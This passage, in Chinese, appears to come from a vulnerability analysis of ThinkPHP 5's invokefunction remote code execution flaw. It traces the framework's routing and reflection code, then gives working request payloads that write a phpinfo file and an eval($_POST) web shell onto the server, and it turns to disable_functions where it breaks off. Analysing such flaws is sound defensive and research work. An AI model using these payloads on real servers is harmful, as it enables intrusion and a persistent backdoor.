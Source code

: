 ```
            throw new HttpException(404, 'method not exists:' . get_class($instance) . '-&gt;' . $action . '()');
        `}`

        Hook::listen('action_begin', $call);

        return self::invokeMethod($call, $vars);
```

is_callable因验证thinkapp中存在invokefunction方法，所以会进入到这个if语句，然后获取类名和方法名.最后一行return到invokeMethod,继续跟进

```
public static function invokeMethod($method, $vars = [])
    `{`
        if (is_array($method)) `{`
            $class   = is_object($method[0]) ? $method[0] : self::invokeClass($method[0]);
            $reflect = new ReflectionMethod($class, $method[1]);
        `}` else `{`
            // 静态方法
            $reflect = new ReflectionMethod($method);
        `}`

        $args = self::bindParams($reflect, $vars);

        self::$debug &amp;&amp; Log::record('[ RUN ] ' . $reflect-&gt;class . '-&gt;' . $reflect-&gt;name . '[ ' . $reflect-&gt;getFileName() . ' ]', 'info');

        return $reflect-&gt;invokeArgs(isset($class) ? $class : null, $args);
    `}`
```

`$args = self::bindParams($reflect, $vars);`数组变量$args会获取POC中的余下的参数,参数中我们就可以使用call_user_func_array来调用函数了.最后组合的poc为

```
?s=/index/thinkapp/invokefunction&amp;function=call_user_func_array&amp;vars[0]=file_put_contents&amp;vars[1][]=shell1.php&amp;vars[1][]=&lt;?phpinfo();?&gt;
```

最后的return会调用invokeArgs函数，此函数的作用是使用数组方法给函数传递参数，并执行函数，所以最终执行call_user_func_array函数。此时会返回到exec函数,retuen $data,将$data传到run()函数中,此时命令就已经执行成功了.

[![](https://p4.ssl.qhimg.com/t019f71a869837dd79e.png)](https://p4.ssl.qhimg.com/t019f71a869837dd79e.png)

既然已经可以进行上传getshell了,那当然直接传个小马进去

```
?s=/index/thinkapp/invokefunction&amp;function=call_user_func_array&amp;vars[0]=file_put_contents&amp;vars[1][]=shell2.php&amp;vars[1][]=&lt;?php eval($_POST[xm])?&gt;i
```

[![](https://p2.ssl.qhimg.com/t016aa952b47d5704c0.png)](https://p2.ssl.qhimg.com/t016aa952b47d5704c0.png)

但是问题来了,虽然是直接getshell了,但是没有办法去进行命令执行,然后跑去phpinfo看一下disable_function
